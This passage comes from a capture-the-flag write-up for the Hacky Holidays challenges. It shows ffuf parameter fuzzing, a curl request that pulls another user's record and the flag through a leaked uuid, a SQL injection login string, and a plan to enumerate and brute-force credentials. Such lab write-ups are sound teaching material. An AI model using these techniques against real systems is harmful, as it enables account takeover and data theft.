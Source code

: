         :: Method           : GET
         :: URL              : https://hackyholidays.h1ctf.com/swag-shop/api/user/?FUZZ=1
         :: Matcher          : Response status: all
         :: Filter           : Response size: 35
        ________________________________________________

        uuid                    [Status: 404, Size: 40, Words: 5, Lines: 1]
        ```
    * We have a parameter hit for `uuid`. 

### Solution

After finishing the recon we have an endpoint `/session` exposing some cookies and 1 user uuid and an endpoint `/user` which takes uuid as a parameter. Hitting `/user` endpoint with uuid from /session we will get the flag

```bash
>> sapra@MacBook-Pro ~ % curl  "https://hackyholidays.h1ctf.com/swag-shop/api/user/?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043"

{"uuid":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","username":"grinch","address":{"line_1":"The Grinch","line_2":"The Cave","line_3":"Mount Crumpit","line_4":"Whoville"},"flag":"flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"}

```

> FLAG-4: flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}

----
## Secure-Login : FLAG-5

Description:
```
Try and find a way past the login page to get to the secret area.

Challenge-Url: https://hackyholidays.h1ctf.com/secure-login
```

### Understanding the Web-App

There is not much functionality in the application. We are presented with a login Form and the description asks us to bypass it. The first few thoughts would be SQL-injection or something.

When trying to log-in with basic SQL-injection in username and password `1' or '1'='1`, if we pay have attention to details, the error returned back is `Invalid Username`, Simply said, there is a way to enumerate username with this error message. So a correct username would say something like `Invalid password`.

With this knowledge, it means we can enumerate `username` and `password`. If this doesn't work, we can go back to recon and search for hidden directories.

### Solution

We can use `ffuf` to brute force username and validate our theory.
